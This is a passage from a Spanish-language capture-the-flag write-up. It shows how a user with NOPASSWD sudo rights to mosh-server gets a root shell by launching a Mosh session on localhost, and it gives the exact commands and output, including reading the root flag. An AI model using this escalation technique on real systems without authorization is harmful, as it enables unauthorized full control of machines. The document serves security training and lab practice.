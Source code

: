 ## Privilege Escalation

### Abusing sudoers privileges (mosh-server)

Al revisar si el usuario que disponemos tiene algún privilegio de `sudoers`, nos encontramos que puede ejecutar como usuario`root` el binario `/usr/bin/mosh-server`.

{% hint style="info" %}
Mosh, el acrónimo de **Mobile Shell**, es una aplicación (en linea de comandos) que es usada para conectarse a un servidor desde un ordenador o dispositivo cliente, a traves de la red. Puede usarse como SSH y contiene algunas características adicionales al SSH. Es una aplicación escrita por Keith Winstein, para sistemas UNIX, bajo licencia GNU GPL v3.
{% endhint %}

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Al ejecutar el servidor Mosh como `root`, ahora el usuario `svcMosh` tiene una shell con permisos de `root`. Esto permite al atacante acceder a todos los recursos del sistema con permisos completos, incluyendo la capacidad de modificar archivos, instalar software, y ejecutar comandos con total libertad.

Básicamente, lo que realizamos es montar un servidor `Mosh` con privilegios de `root` en el `localhost`, para así lograr obtener acceso como usuario `root`.

Por otro lado, logramos verificar la flag de **root.txt**.

```bash
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

...[snip]...

root@underpass:~$ cat root.txt 
0428fb9394b*********************
```

